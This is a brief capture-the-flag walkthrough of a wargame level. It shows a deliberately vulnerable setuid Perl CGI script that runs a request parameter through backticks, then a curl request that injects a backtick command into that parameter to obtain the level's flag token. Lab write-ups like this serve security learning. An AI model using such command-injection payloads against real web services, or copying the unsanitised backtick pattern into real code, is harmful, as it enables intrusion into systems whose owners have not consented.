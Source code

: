
-> ls -la

There is a file that seems intereting

-rwsr-sr-x 1 flag04 level04 ... level04.pl

Again an executable file

-> ./level04.pl

Content-type: text/html

-> cat level04.pl

#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
}
x(param("x"));

-> curl 'localhost:4747/level04.pl?x=`getflag`'

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

-> su level05 ..